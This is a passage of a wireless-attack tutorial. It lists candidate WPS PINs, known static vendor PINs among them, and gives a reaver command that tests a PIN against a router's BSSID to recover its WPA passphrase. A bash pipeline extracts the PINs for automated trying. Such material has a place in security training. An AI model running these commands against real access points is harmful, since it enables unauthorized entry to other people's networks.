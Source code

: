 ```shell
89532331   36-bit PIN
68175542   Static PIN — DSL-2740R
71412252   Static PIN — Airocon 2
80652847   D-Link PIN
76229909   Static PIN — Broadcom 3
46264848   Static PIN — Broadcom 2
82799427   Reverse nibble 48-bit
20233921   Reverse byte 48-bit
31957199   Static PIN — Broadcom 6
10864111   Static PIN — Broadcom 5
62327145   Static PIN — Broadcom 4
30432031   Static PIN — Airocon 1
90970948   Reverse bits 48-bit
22369628   NIC * 2
33554433   NIC * 3
34259283   Static PIN — HG532x
35611530   Static PIN — Edimax
20172527   Static PIN — Broadcom 1
67958146   Static PIN — Thomson
12345670   Static PIN — Cisco
74244973   OUI + NIC

```

WPSPin outputs a variety of possible PINs for valid BSSIDs. To retrieve the WPA-PSK from a known PIN, we can use the following command.

```shell
sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 60:38:E0:A2:3D:2A -c 1 -p 73834410

```

In the above command, `-l` sets the time to wait if the access point locks WPS PIN attempts, which is set to 100 seconds. The `-r` option specifies the recurring delay, meaning the command will sleep for 45 seconds every 3 attempts. The `--max-attempts=1` specifies that the tool will only attempt the PIN one time. This option ensures that the PIN is tested just once, rather than multiple attempts.

However, doing this with a list of pre-defined PINs is not very efficient, as we have to re-execute this command for every potential PIN. Luckily, a bit of bash scripting can enable us to conduct a hands off approach for every PIN we generated.

We can extract only the pins from the wpspin output using a combination of `grep` and `tr` commands:

```shell
wpspin -A 60:38:E0:A2:3D:2A | grep -Eo '\b[0-9]{8}\b' | tr '\n' ' '

73834410 94229882 73834410 06490959 11184812 63311501 11184812 36499373 63313604 99956042 95661469 89478486 11184812 11184812 95755212 20854836 20144326 33946153 13142452 74163052 51875350 43977680 56587340 95719115 48563710 92148659 05294176 89532331 68175542 71412252 80652847 76229909 46264848 82799427 20233921 31957199 10864111 62327145 30432031 90970948 22369628 33554433 34259283 35611530 20172527 67958146 12345670 74244973

```
